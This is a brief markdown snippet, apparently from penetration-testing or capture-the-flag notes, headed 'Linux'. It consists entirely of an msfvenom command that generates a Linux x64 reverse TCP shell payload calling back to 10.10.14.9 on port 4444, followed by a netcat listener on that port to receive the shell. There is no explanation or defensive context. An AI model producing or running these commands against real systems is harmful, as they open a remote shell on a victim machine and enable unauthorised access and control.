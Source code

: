 # Linux

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 PrependFork=true -o
rev
```

```bash
nc -nvlp 4444
```

